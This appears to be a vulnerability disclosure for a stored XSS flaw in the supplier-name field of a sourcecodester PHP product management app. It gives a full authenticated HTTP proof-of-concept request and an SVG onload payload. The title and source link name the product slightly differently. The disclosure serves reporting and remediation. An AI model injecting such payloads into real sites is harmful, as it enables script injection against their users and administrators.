 The Web-based Pharmacy Product Management System has an xss vulnerability that can be exploited by an attacker to affect program functionality when authenticated.



Source code address：https://www.sourcecodester.com/php/17883/web-based-product-alert-system.html



The vulnerability is located in the /add-supplier.php file, where the txtsupplier_name content that receives the POST is assigned to the supplier_name and saved directly to the database. There is no restriction on the input content. When an administrator or other user views the list and the value is subsequently output directly to the HTML page, XSS attacks can occur.

![image-20250407115737504](images/image-20250407115737504.png)



Vulnerability verification：

```
POST /product_expiry/add-supplier.php HTTP/1.1
Host: 192.168.80.152
Content-Length: 85
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.80.152
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.80.152/product_expiry/add-supplier.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=73mpo1nrj4ta0rpehf7o8usjc0
Connection: close

txtsupplier_name=%22%3E%3Csvg+onload%3Dalert%283%29%3E%2F%2F&txtaddress=1111&btnsave=
```

payload：

```
"><svg onload=alert(3)>//
```

![image-20250407114210678](images/image-20250407114210678.png)

![image-20250407114215557](images/image-20250407114215557.png)
